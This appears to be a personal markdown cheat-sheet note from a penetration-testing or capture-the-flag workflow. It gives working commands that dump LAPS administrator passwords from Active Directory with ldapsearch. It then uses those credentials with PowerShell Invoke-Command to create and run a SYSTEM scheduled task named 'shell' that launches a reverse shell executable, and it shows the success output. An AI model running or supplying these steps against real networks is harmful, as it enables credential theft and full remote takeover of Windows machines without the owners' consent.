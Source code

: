 ```yaml
---
category: Uncategorized
tags: []
---
```


![[Pasted image 20220328113745.png]]

```bash - kali
ldapsearch -v -x -D $USER@$HOSTNAME.$DOMAIN -w $PASSWORD -b "DC=$HOSTNAME,DC=$DOMAIN" -h $TARGET "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

```powershell - windows
powershell
```

Use found password from above here.

```powershell - windows
$pw = ConvertTo-SecureString "$PASSWORD" -AsPlainText -Force
```

```powershell - windows
$creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)
```

Make sure the path to reverse.exe is correct below.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\Windows\Temp\Tools\reverse64.exe /ru SYSTEM } -Credential $creds
```

![[rlwrap]]

SUCCESS: The scheduled task "shell" has successfully been created.

```powershell - windows
Invoke-Command -Computer $HOSTNAME -ScriptBlock { schtasks /run /tn shell } -Credential $creds
```

SUCCESS: Attempted to run the scheduled task "shell".
